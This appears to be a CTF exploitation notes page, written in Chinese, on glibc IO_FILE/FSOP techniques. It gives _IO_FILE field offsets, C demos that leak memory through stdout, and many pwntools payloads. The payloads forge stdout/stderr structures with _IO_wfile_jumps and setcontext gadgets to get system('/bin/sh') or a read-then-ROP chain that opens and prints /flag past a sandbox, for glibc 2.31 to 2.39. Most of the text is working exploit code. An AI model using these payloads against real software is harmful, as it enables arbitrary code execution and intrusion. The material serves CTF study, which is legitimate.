

# IO_FILE 利用

‍

‍

‍

‍

‍

‍

```python
0x0:'_flags',
0x8:'_IO_read_ptr',
0x10:'_IO_read_end',
0x18:'_IO_read_base',
0x20:'_IO_write_base',
0x28:'_IO_write_ptr',
0x30:'_IO_write_end',
0x38:'_IO_buf_base',
0x40:'_IO_buf_end',
0x48:'_IO_save_base',
0x50:'_IO_backup_base',
0x58:'_IO_save_end',
0x60:'_markers',
0x68:'_chain',
0x70:'_fileno',
0x74:'_flags2',
0x78:'_old_offset',
0x80:'_cur_column',
0x82:'_vtable_offset',
0x83:'_shortbuf',
0x88:'_lock',
0x90:'_offset',
0x98:'_codecvt',
0xa0:'_wide_data',
0xa8:'_freeres_list',
0xb0:'_freeres_buf',
0xb8:'__pad5',
0xc0:'_mode',
0xc4:'_unused2',
0xd8:'vtable'
```

‍

‍

‍

* 参考

> [https://faraz.faith/2020-10-13-FSOP-lazynote/](https://faraz.faith/2020-10-13-FSOP-lazynote/)
>
> https://enzo.run/posts/lactf2024/#flipma

## `_IO_2_1_stdin_` 任意地址写入

```python
# 直接改 _IO_2_1_stdin_ 内容
payload = p64(0xfbad1800) + p64(0) * 6 + p64(x) + p64(x + 0x100) # 写的size


# 改 elf bss 段上的

	payload = p64(0xfbad1800) + p64(0) * 6 + p64(x) + p64(x + 0x100)
	payload = payload.ljust(0x70,b'\x00')
	payload += p64(0x1000000000)
	payload += p64(0xFFFFFFFFFFFFFFFF)
	payload += p64(0xa000000)
	#payload += p64(libc.sym['_IO_stdfile_0_lock'])
	payload += p64(libc_base + 3958672)
	payload += p64(0xFFFFFFFFFFFFFFFF)
	payload += p64(0)
	#payload += p64(libc.sym['_IO_wide_data_0'])
	payload += p64(libc_base + 3951040) # 
	payload += p64(0) * 3
	payload += p64(0xffffffff)
	payload += p64(0) * 2
	payload += p64(libc.sym['_IO_file_jumps'])
```

## `_IO_2_1_stdout_` 泄露地址

### ​_IO_2_1_stdout_​ 泄露地址-1

```c
#include<stdio.h>
#include<stdlib.h>

int main(){

    char stack_data[] = "0123456789abcdef";

    setbuf(stdout, 0LL);

    stdout->_flags           = 0xFBAD1800; // 关键点
    stdout->_IO_write_base   = stack_data;
    stdout->_IO_write_ptr    = stack_data + 0x20;


    puts("attack");

    //getchar();
    return 0;
}
```

```c
pwndbg> p _IO_2_1_stdout_
$2 = {
  file = {
    _flags = -72542208,
    _IO_read_ptr = 0x7ffff7dff643 <_IO_2_1_stdout_+131> "",
    _IO_read_end = 0x7ffff7dff643 <_IO_2_1_stdout_+131> "",
    _IO_read_base = 0x7ffff7dff643 <_IO_2_1_stdout_+131> "",
    _IO_write_base = 0x7fffffffe1c0 "0123456789abcdef",
    _IO_write_ptr = 0x7fffffffe1e0 "\001",
    _IO_write_end = 0x7ffff7dff643 <_IO_2_1_stdout_+131> "",
    _IO_buf_base = 0x7ffff7dff643 <_IO_2_1_stdout_+131> "",
    _IO_buf_end = 0x7ffff7dff644 <_IO_2_1_stdout_+132> "",
    _IO_save_base = 0x0,
    _IO_backup_base = 0x0,
    _IO_save_end = 0x0,
    _markers = 0x0,
    _chain = 0x7ffff7dfe8e0 <_IO_2_1_stdin_>,
    _fileno = 1,
    _flags2 = 0,
    _old_offset = -1,
    _cur_column = 0,
    _vtable_offset = 0 '\000',
    _shortbuf = "",
    _lock = 0x7ffff7e00710 <_IO_stdfile_1_lock>,
    _offset = -1,
    _codecvt = 0x0,
    _wide_data = 0x7ffff7dfe7e0 <_IO_wide_data_1>,
    _freeres_list = 0x0,
    _freeres_buf = 0x0,
    __pad5 = 0,
    _mode = 0,
    _unused2 = '\000' <repeats 19 times>
  },
  vtable = 0x7ffff7dfd070 <_IO_file_jumps>
}
```

```python
pay  = p64(0xFBAD1800) + p64(0) * 3 + p64(buf) + p64(buf + 0x20)
```


### ​_IO_2_1_stdout_​ 泄露地址-2

- 参考 flipma

```c
#include<stdio.h>
#include<stdlib.h>

int main(){

    char stack_data[] = "0123456789abcdef";

    setbuf(stdout, 0LL);
    puts("start");
    stdout->_IO_read_end     = stack_data;
    stdout->_IO_read_base    = stack_data + 0x20;
    stdout->_IO_write_base   = stack_data;
    stdout->_IO_write_ptr    = stack_data + 0x20;

    puts("attack");

    //getchar();
    return 0;
}
```

```c
pwndbg> p _IO_2_1_stdout_
$1 = {
  file = {
    _flags = -72537977, //执行 puts 后的 flags 0xfbad2886
    _IO_read_ptr = 0x7ffff7dff643 <_IO_2_1_stdout_+131> "\n",
    _IO_read_end = 0x7fffffffe1c0 "0123456789abcdef",        //只需要修改 这里
    _IO_read_base = 0x7fffffffe1e0 "\001",
    _IO_write_base = 0x7fffffffe1c0 "0123456789abcdef",
    _IO_write_ptr = 0x7fffffffe1e0 "\001",
    _IO_write_end = 0x7ffff7dff643 <_IO_2_1_stdout_+131> "\n",
    _IO_buf_base = 0x7ffff7dff643 <_IO_2_1_stdout_+131> "\n",
    _IO_buf_end = 0x7ffff7dff644 <_IO_2_1_stdout_+132> "",
    _IO_save_base = 0x0,
    _IO_backup_base = 0x0,
    _IO_save_end = 0x0,
    _markers = 0x0,
    _chain = 0x7ffff7dfe8e0 <_IO_2_1_stdin_>,
    _fileno = 1,
    _flags2 = 0,
    _old_offset = -1,
    _cur_column = 0,
    _vtable_offset = 0 '\000',
    _shortbuf = "\n",
    _lock = 0x7ffff7e00710 <_IO_stdfile_1_lock>,
    _offset = -1,
    _codecvt = 0x0,
    _wide_data = 0x7ffff7dfe7e0 <_IO_wide_data_1>,
    _freeres_list = 0x0,
    _freeres_buf = 0x0,
    __pad5 = 0,
    _mode = -1,
    _unused2 = '\000' <repeats 19 times>
  },
  vtable = 0x7ffff7dfd070 <_IO_file_jumps>
}
```

> 只需要从 _IO_2_1_stdout._IO_read_end 开始控制 0x20 个字节即可

```python
start_addr = buf;
end_addr   = buf + 0x10;
pay = (p64(start_addr) + p64(end_addr)) * 2
```

- 实际上只要控制 _IO_2_1_stdout_​的 _IO_read_end​ _IO_write_base​ _IO_write_ptr​ 就可以了

```c
#include<stdio.h>
#include<stdlib.h>

int main(){

    char stack_data[] = "0123456789abcdef";

    setbuf(stdout, 0LL);
    puts("start");
    //stdout->_flags           = 0xfbad2886;
    //stdout->_flags           = 0xFBAD1800;
    //stdout->_IO_read_ptr     = 0;
    stdout->_IO_read_end     = stack_data;
    //stdout->_IO_read_base    = stack_data + 0x20;
    stdout->_IO_write_base   = stack_data;
    stdout->_IO_write_ptr    = stack_data + 0x20;
    //stdout->_IO_write_end    = 0;
    //stdout->_IO_buf_base     = 0;
    //stdout->_IO_buf_end      = 0;

    puts("attack1");

    puts("attack2");

    puts("attack3");

    //getchar();
    return 0;
}
```

### ​_IO_2_1_stdout_​ 泄露地址-其他

> 现在，我们有能力将越界写入 tls​ 和 libc​ 没有限制，我们可以泄漏 libc​ 地址。诀窍是惹 stdout​：改变 stdout->flags​ 自 0x1800​ 并使 stdout->_IO_write_ptr​ 比 stdout->_IO_write_base​。下次我们使用 puts()​，它会从中吐出数据 _IO_write_base​ 自 _IO_write_ptr​，给我们 libc​ 泄漏我们需要向前迈进。

- 只要 _IO_write_base​ 和 _IO_write_ptr​ 有差距就会输出_IO_write_base​ 到 _IO_write_ptr​ 直接的数据


### 利用 IO_2_1_stdout 泄露地址(IO任意地址读取)

只要能改变 _IO_2_1_stdout_​ 就可以 无论是 劫持elf_bss 上的 std指针

还是 任意地址申请到 _IO_2_1_stdout_​

```gdb
telescope    &_IO_2_1_stdout_
```


1. 首先我们要对IO流有一个大致的了解

在linux系统中的IO库中存在一个FILE文件流，一个用于描述文件的结构，而每个程序在启动时有三个文件流是自动打开的：stdin、stdout、stderr。其保存的位置在数据段中。

而结构体中最重要的元素就是flags和fileno，_fileno存储的是我们的文件描述符，对于某些情况或许我们要劫持_fileno才能达到我们的目的，而_flags则标志了该FILE的一些行为。

### payload(用于IO任意读写)

```python
p64(0xfbad1800) 修改flags为write

 有的payload 不一定行 多试几个


'''
flat([0x00000000fbad3887, 0, 0, 0, libc_addr + 0x206258, libc_addr + 0x206258 + 8, libc_addr + 0x206258 + 8, libc_addr + 0x206258 + 8]) + b'\n'

'''


pay = p64(0xFBAD1800) + p64(0) * 3 + p64(lake_addr_ptr) + p64(Length) # Length = lake_addr_ptr + len


environ = libc.sym['environ']
pay = p64(0xFBAD1800) + p64(0) * 3 + p64(environ) + p64(environ+8) # + 8 那就从 environ_ptr 里泄露 8 个字节


environ = libc.sym['environ']
pay = p64(0xFBAD1800) + p64(0) * 3 + p64(environ) + p64(environ) * 2 # Length = lake_addr_ptr + len


```

‍

‍

## 打 stdout 高版本 通杀1

‍

glibc 2.39

‍

```python
libc.address = libc_base

fake_IO_addr = libc.sym['_IO_2_1_stdout_']


pay = flat({
    0x00: 0,
    0x18: libc.sym['setcontext'] + 61,
    0x20: fake_IO_addr, # 0x20 > 0x18
    0x68: 0,                # rdi  #read fd
    0x70: fake_IO_addr,     # rsi  #read buf
    0x88: fake_IO_addr,     # rdx  #read size
    0xa0: fake_IO_addr,
    0xa8: libc.sym['read'], # RCE2 ogg
    0xd8: libc.sym['_IO_wfile_jumps'] + 0x30 - 0x20,
    0xe0: fake_IO_addr,
    },filler=b'\x00')
```

‍

## stdout 2

glibc 2.39, glibc 2.36

```python
fake_IO_addr = libc.sym['_IO_2_1_stdout_']
pay = flat({
    0x00: '  sh;',
    0x18: libc.sym['system'],
    0x20: fake_IO_addr, # 0x20 > 0x18
    0x68: 0,                # rdi  #read fd
    0x70: fake_IO_addr,     # rsi  #read buf
    0x88: fake_IO_addr + 0x8,     # rdx  #read size
    0xa0: fake_IO_addr,
    0xa8: libc.sym['read'], # RCE2 ogg
    0xd8: libc.sym['_IO_wfile_jumps'] + 0x30 - 0x20,
    0xe0: fake_IO_addr,
    },filler=b'\x00')
```

‍

‍

## 打 stderr 高版本 (v1)

‍

glibc 2.39

‍

```python
# glibc 2.39
fake_IO_addr = heap_base + 0xbd0
RCE  = setcontext + 61
RCE2 = read

pay = flat({
    0x00: 0,
    0x20: fake_IO_addr,
    0x28: 0xffffffff,
    0x60: RCE,
    0x68: 0x0,          # rdi
    0x70: fake_IO_addr, # rsi
    0x88: fake_IO_addr, # rdx
    0xA0: fake_IO_addr,
    0xA8: RCE2,
    0xC0: 1, # mode
    0xd8: libc.sym['_IO_wfile_jumps'] + 0x30, # vtable # 可以控制虚表的走向
    0xe0: fake_IO_addr + 0x48,
}, filler=b"\x00")
```

‍

* 我写的大部分都是调用这个，只要保证 call 虚表的时候 call 的是 `_IO_wfile_seekoff`​

​​

‍

‍

‍

## libc 2.39 stderr (exit触发)(v2)

‍

‍

* 执行 `system('/bin/sh');`​

‍

```python

gdbscript = '''
#b *_IO_flush_all_lockp
#libc2.35

b *_IO_flush_all
# libc2.39

b *_IO_switch_to_wget_mode
#continue
'''.format(**locals())
###################################################################################################
libc.address = libc_base

_stderr = libc.sym['_IO_2_1_stderr_']

fake_IO_addr = _stderr

pay = flat({
    0x00: 0,
    0x18: libc.sym['setcontext'] + 61, # CALL1
    0x68: next(libc.search(b'/bin/sh')), # CALL1
    0xa0: fake_IO_addr-0x30,
    0xa8: libc.sym['setcontext'] + 334, # CALL2 # ret 调整 stack, 然后 system
    0x88: fake_IO_addr,
    0xc0: 1,                # mode
    0xe0-0x30: fake_IO_addr,
    0xd8: libc.sym['_IO_wfile_jumps'] + 0x30,
    },filler=b'\x00')

p1  = p64(libc.sym['system']) * 2 + p64(libc.sym['_IO_2_1_stderr_']) + p64(1) + p64(fake_IO_addr) + p64(0)
p1 += pay

gdb.attach(io,gdbscript)

sl(hex(_stderr-0x30)) # write_base 从这开始劫持

pause()
sl(p1)
io.interactive()
###################################################################################################
```

‍

‍

```python
# _stderr-0x30 从这开写数据
        _stderr = libc.sym['_IO_2_1_stderr_']

        fake_IO_addr = _stderr

        pay = flat({
            0x00: 0,
            0x18: libc.sym['setcontext']+61, # CALL1
            0x68: next(libc.search(b'/bin/sh')), # CALL1
            0xa0: fake_IO_addr-0x30,
            0xa8: libc.sym['setcontext'] + 334, # CALL2 # ret 调整 stack, 然后 system
            0x88: fake_IO_addr,
            0xc0: 1,                # mode
            0xe0-0x30: fake_IO_addr,
            #0xd8: libc.sym['_IO_wfile_jumps'] + 0x30,
            0xd8: libc.sym['_IO_wfile_jumps']-0x30+0x10,
            },filler=b'\x00')

        p1  = p64(libc.sym['system']) * 2 + p64(libc.sym['_IO_2_1_stderr_']) + p64(1) + p64(fake_IO_addr) + p64(0)
        p1 += pay
```

‍

* 绕沙箱

执行一个read 然后可以rop 了

```python
libc.address = libc_base

_stderr = libc.sym['_IO_2_1_stderr_']

fake_IO_addr = _stderr

# pwndbg> x/20i 0x7561fb44aa7e
#    0x7561fb44aa7e <setcontext+302>:     mov    rsi,QWORD PTR [rdx+0x70]
#    0x7561fb44aa82 <setcontext+306>:     mov    rdi,QWORD PTR [rdx+0x68]
#    0x7561fb44aa86 <setcontext+310>:     mov    rcx,QWORD PTR [rdx+0x98]
#    0x7561fb44aa8d <setcontext+317>:     mov    r8,QWORD PTR [rdx+0x28]
#    0x7561fb44aa91 <setcontext+321>:     mov    r9,QWORD PTR [rdx+0x30]
#    0x7561fb44aa95 <setcontext+325>:     mov    rdx,QWORD PTR [rdx+0x88]
#    0x7561fb44aa9c <setcontext+332>:     xor    eax,eax
#    0x7561fb44aa9e <setcontext+334>:     ret


# read
pay = flat({
    0x00: 0,
    0x18: libc.sym['setcontext'] + 61, # CALL1
    0x68: 0 , # rdi
    0x70: fake_IO_addr-0x30 , # rdi
    0xa0: fake_IO_addr-0x30,
    0xa8: libc.sym['read'], # CALL2
    0x88: fake_IO_addr,
    0xc0: 1,                # mode
    0xe0-0x30: fake_IO_addr,
    0xd8: libc.sym['_IO_wfile_jumps'] + 0x30,
    },filler=b'\x00')

p1  = p64(0) * 2 + p64(libc.sym['_IO_2_1_stderr_']) + p64(1) + p64(fake_IO_addr) + p64(0)
p1 += pay

gdb.attach(io,gdbscript)

sl(hex(_stderr-0x30)) # write_base

pause()
sl(p1)
io.interactive()
```

‍

‍

## libc 2.35 stderr (exit触发)(v2)

* 执行 `system('  sh;');`​

```python
libc.address = libc_base

_stderr = libc.sym['_IO_2_1_stderr_']


fake_IO_addr = _stderr


pay = flat({
    0x00: '  sh;',
    0x18-0x10: libc.sym['setcontext'] + 61, # 0x8 # 0x10
    0x20-0x10: fake_IO_addr,	# 0x20 > 0x18
    0x18: libc.sym['system'],
    0xa0: fake_IO_addr-0x10, 	# 取此地址 +0xe0的地址，但是 在这里是 stdout 的 flags,为了不影响stdout修改
    0xc0: 1,                	# mode
    0xe0-0x10: fake_IO_addr,	# 0xe0 
    0xd8: libc.sym['_IO_wfile_jumps'] + 0x30,
    },filler=b'\x00')
```

‍

## libc 2.35 largebins attack _IO_list_all

‍

```python
libc.address = libc_base

fake_IO_addr = heap_addr


pay = flat({
    0x18-0x10: libc.sym['setcontext'] + 61, # 0x8 # 0x10
    0x20-0x10: fake_IO_addr,	# 0x20 > 0x18
    0x18: libc.sym['system'],
    0xa0: fake_IO_addr-0x10, 	# 取此地址 +0xe0的地址，但是 在这里是 stdout 的 flags,为了不影响stdout修改
    0xc0: 1,                	# mode
    0xe0-0x10: fake_IO_addr,	# 0xe0 
    0xd8: libc.sym['_IO_wfile_jumps'] + 0x30,
    },filler=b'\x00')
```

‍

‍

## libc2.31 stdout read size big

‍

```python
fake_IO_addr = libc.sym['_IO_2_1_stdout_']


pay = flat({
    0x00: '  sh;',
    0x18: libc.sym['setcontext'] + 53,
    0x20: fake_IO_addr, # 0x20 > 0x18
    0x68: fake_IO_addr,                # rdi  #read fd
    0x70: 0,     # rsi  #read buf
    0x78: fake_IO_addr,     # rsi2  #read buf
    0x88: fake_IO_addr + 0x8,     # rdx  #read size
    0x90: 0x400,     # rdx2  #read size
    0x98: 0x23,     # rdx  #read size
    0xa0: fake_IO_addr,
    0xa8: libc.sym['setcontext'] + 87, # RCE2 ogg
    0xb0: libc.sym['read'], # RCE2 ogg
    0xd8: libc.sym['_IO_wfile_jumps'] + 0x30 - 0x20,
    0xe0: fake_IO_addr,
    },filler=b'\x00')

#gdb.attach(io,gdbscript)


add(0xe8,pay)


pause()


libc_rop = ROP(libc)
rax = libc_rop.find_gadget(['pop rax','ret'])[0]
rdi = libc_rop.find_gadget(['pop rdi','ret'])[0]
rsi = libc_rop.find_gadget(['pop rsi','ret'])[0]
rdx = libc_rop.find_gadget(['pop rdx','ret'])[0]
#rdx = libc_rop.find_gadget(['pop rdx','pop rbx','ret'])[0]
syscall = libc_rop.find_gadget(['syscall','ret'])[0]

orw_rop_addr = fake_IO_addr

orw_rop  = p64(rax) + p64(2) + p64(rdi) + p64(orw_rop_addr+0xb8) + p64(rsi) + p64(0) + p64(rdx) + p64(0) + p64(syscall)
orw_rop += p64(rdi) + p64(3) + p64(rsi) + p64(orw_rop_addr+0xb8) + p64(rdx) + p64(0x100) + p64(libc.sym['read'])
orw_rop += p64(rdi) + p64(1) + p64(rsi) + p64(orw_rop_addr+0xb8) + p64(rdx) + p64(0x100) + p64(libc.sym['write'])
orw_rop += b'/flag'.ljust(0x10,b'\x00')
sl(orw_rop)
```

‍

## stdout read size big

‍

* libc 2.35

* libc. 2.39

```python

fake_IO_addr = libc.sym['_IO_2_1_stdout_']

pay = flat({
    0x00: '  sh;',
    0x18: libc.sym['setcontext'] + 61,
    0x20: fake_IO_addr, # 0x20 > 0x18
    0x68: fake_IO_addr,                # rdi  #read fd
    0x70: 0,     # rsi  #read buf
    0x78: fake_IO_addr,     # rsi2  #read buf
    0x88: fake_IO_addr + 0x8,     # rdx  #read size
    0x90: 0x400,     # rdx2  #read size
    0x98: 0x23,     # rdx  #read size
    0xa0: fake_IO_addr,
    0xa8: libc.sym['setcontext']+294, # RCE2 ogg
    0xb0: libc.sym['read'], # RCE2 ogg
    0xd8: libc.sym['_IO_wfile_jumps'] + 0x30 - 0x20,
    0xe0: fake_IO_addr,
    },filler=b'\x00')


libc_rop = ROP(libc)
rax = libc_rop.find_gadget(['pop rax','ret'])[0]
rdi = libc_rop.find_gadget(['pop rdi','ret'])[0]
rsi = libc_rop.find_gadget(['pop rsi','ret'])[0]
#rdx = libc_rop.find_gadget(['pop rdx','ret'])[0]
rdx = libc_rop.find_gadget(['pop rdx','pop rbx','ret'])[0]
syscall = libc_rop.find_gadget(['syscall','ret'])[0]

orw_rop_addr = fake_IO_addr

orw_rop  = p64(rax) + p64(2) + p64(rdi) + p64(orw_rop_addr+0xd0) + p64(rsi) + p64(0) + p64(rdx) + p64(0)*2 + p64(syscall)
orw_rop += p64(rdi) + p64(3) + p64(rsi) + p64(orw_rop_addr+0xd0) + p64(rdx) + p64(0x100)*2 + p64(libc.sym['read'])
orw_rop += p64(rdi) + p64(1) + p64(rsi) + p64(orw_rop_addr+0xd0) + p64(rdx) + p64(0x100)*2 + p64(libc.sym['write'])
orw_rop += b'/flag'.ljust(0x10,b'\x00')
sl(orw_rop)


```

‍

‍

‍

‍

## link

‍

* litctf libc.2.39

‍
